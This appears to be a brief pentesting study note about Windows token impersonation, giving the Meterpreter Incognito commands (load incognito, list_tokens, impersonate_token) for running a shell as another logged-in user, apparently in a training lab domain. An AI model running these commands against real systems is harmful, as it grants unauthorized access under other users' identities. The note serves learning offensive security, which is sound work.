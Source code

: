 ## Automation
We can use the Meterpreter Incognito module to impersonate any logged in users and obtain code execution in their context without access to any passwords or hashes.

We simply run the following commands on our meterpreter session:
```Metasploit
load incognito //loads the incognito module
help incognito //shows various incognite commands

list_tokens -u //lists all tokens by unique username
impersonate_token corp1\\admin //impersonates a token and runs our shell as the user
```


we get a shell as NT AUTHORITY:

![](../../../Screenshots/ms-isana.png)
